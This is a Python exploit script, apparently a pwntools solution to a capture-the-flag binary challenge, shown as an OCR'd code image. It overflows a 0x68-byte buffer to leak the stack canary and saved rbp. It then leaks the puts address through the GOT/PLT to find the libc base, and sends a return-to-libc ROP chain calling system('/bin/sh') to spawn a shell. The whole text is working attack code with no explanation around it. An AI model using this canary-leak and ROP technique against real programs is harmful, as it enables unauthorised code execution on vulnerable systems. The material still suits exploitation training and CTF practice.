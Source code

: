 ```python
        else:
            script="b *$rebase({:#x})\nc\n".format(address)
        gdb.attach(p, script)
def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    pop_rdi = 0x0000000000400903
    ret = 0x000000000040061e
    main_addr = 0x400757
    puts_got = libc.got["puts"]
    puts_plt = libc.plt["puts"]
    sla("it?(y or n)\n",'y')
    p.recvuntil('is ')

    easyinput = int(p.recv()[0:14],16)
    #print "easyinput :",easyinput
    #print rv()
    libeasybase = easyinput - 0x87a
    lg("easyinput",easyinput)
    lg("libeasybase",libeasybase)
    # leak canary rbp    ->first time to leak
    buff = 'A' * 0x68+'a' 
    sn(buff)
    p.recvuntil('\x61')
    tmp = p.recv()
    canary = u64(tmp[:7].rjust(8,'\x00'))
    rbp = u64(tmp[-6:].ljust(8,'\x00'))
    lg("canary:",canary)
    lg("rbp:",rbp)
    
    # second time to leak        leak putaddr to get libc  return to main
    buff = p64(puts_got+libeasybase) + p64(puts_plt+libeasybase) +p64(main_addr)+'A' * (0x68-0x18) + p64(canary) + p64(rbp)+p64(pop_rdi)
    #buff = 'A' * 0x68 + p64(canary) + p64(rbp)+p64(pop_rdi)+p64(puts_got+libeasybase) + p64(puts_plt+libeasybase) +p64(main_addr)
    #gdb.attach(p)
    sn(buff)

    putaddr  = u64(ru('\x0a')[-7:-1].ljust(8,'\x00'))
    lg("putaddr",putaddr)
    libc1.address = putaddr - libc1.symbols['puts']
    lg("Libc address", libc1.address)
    system_addr = libc1.symbols["system"]
    sh_addr = libc1.search("/bin/sh").next()
    lg("system_addr", system_addr)
    lg("sh_addr", sh_addr)
    sla("it?(y or n)\n",'n')
    
    # return to system
    buff = p64(sh_addr) +p64(ret) + p64(system_addr) +p64(0xdeadbeef)+'A' * (0x68-0x20) + p64(canary) + p64(rbp)+p64(pop_rdi)
    
    sn(buff)
```